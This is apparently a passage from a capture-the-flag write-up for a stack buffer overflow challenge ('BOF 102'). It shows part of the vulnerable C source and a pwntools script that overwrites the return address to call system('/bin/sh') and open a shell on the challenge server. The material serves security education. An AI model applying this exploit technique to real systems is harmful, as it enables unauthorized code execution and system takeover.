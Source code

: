 ```
        scanf("%s", payload);
        printf("!!!%s!!!\n", payload);
        puts("Good.");
}

int main() {
        system("echo 'Welcome to BOF 102!'");
        bofme();
        return 0;
}
```

This is again a simple buffer overflow, but this time we need to drop a shell. Note that there were almost no protections enabled (except for NX), which allowed us to ignore e.g. ASLR. The following script was used to solve the challenge:

```
#!/usr/bin/env python
# coding: utf-8
import sys
import time
from pwn import *

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("bof102.sstf.site", 1337)
    else:
        p = process("./bof102")
        #p = gdb.debug("./bof102", gdbscript='break main')

    binary = ELF('./bof102')

    # Choose right path, to get to the vulnerable read call
    print(p.recvuntil(b"Name >"))

    system_arg = 0x804a034
    system_addr = 0x080483e0

    argument = b"/bin/sh\x00\n"

    p.send(argument)

    exploit = b"A" * 16 + b"BBBB"  +  p32(system_addr) + b"AAAA" + p32(system_arg) + b"\n"
    
    #exploit = "A" *200
    print(p.recvuntil(b">"))
    print("[+] Sending our exploit")
    p.send(exploit)
    print("[+] Final output")
    # Note that if your program never ends, you will never see any output
    p.interactive()
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```
